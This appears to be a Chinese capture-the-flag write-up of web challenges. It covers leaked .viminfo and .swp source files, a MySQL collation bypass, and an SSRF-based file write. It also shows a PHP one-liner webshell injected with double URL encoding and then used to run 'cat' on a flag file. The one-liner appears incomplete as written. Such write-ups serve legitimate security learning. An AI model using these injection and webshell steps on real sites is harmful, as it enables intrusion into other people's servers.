 
访问 .viminfo配置文件，提示/var/www/icq/5211ec9dde53ee65bb02225117fba1e1.php.backup~~~

访问/5211ec9dde53ee65bb02225117fba1e1.php.backup，页面源码代码审计，有个set names utf8，使用ç=c绕过

注：MYSQL 中 utf8_unicode_ci 和 utf8_general_ci 两种编码格式, utf8_general_ci不区分大小写, Ä = A, Ö = O, Ü = U 这三种条件都成立, 对于utf8_general_ci下面的等式成立：ß = s ，但是，对于utf8_unicode_ci下面等式才成立：ß = ss 。
可以看到大写O和Ö是相等的

绕过后提示c3368f5eb5f8367fd548b228bee69ef2.php，访问后代码审计

```
<?php
if(isset($_GET['path']) && isset($_GET['filename'])){
    $path = $_GET['path'];
    $name = "upload/".$_GET['filename'];
}
else{
    show_source(__FILE__);
    exit();
}
if(strpos($name,'..') > -1){
    echo 'WTF';
    exit();
}

if(strpos($path,'http://127.0.0.1/') === 0){
    file_put_contents($name,file_get_contents($path));
}
else{
    echo 'path error';
}
?>
```

接受两个参数，不能上跳，读取path的内容写到/upload/$file里面，

wp 往5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php phpinfo();?>注入一句话，需要二次url编码，尝试成功

最后 c3368f5eb5f8367fd548b228bee69ef2.php/?path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php $_REQUEST[0];?>&filename=1.php二次编码写入成功

访问/upload/1.php?0=cat ../flag_is_here.php

大佬的write-up地址 

https://www.cnblogs.com/haozhizhi/p/10786382.html

https://www.ichunqiu.com/course/56485

## EXEC（i春秋）
1.wp提示/index.php.swp 源码泄露，访问/.index.php.swp

2.源码

```
/*
flag in flag233.php
*/
 function check($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {
                $digit = ord($number{$i});
                if ( ($digit >= $one) && ($digit <= $nine) )
                {
                        return false;
                }
```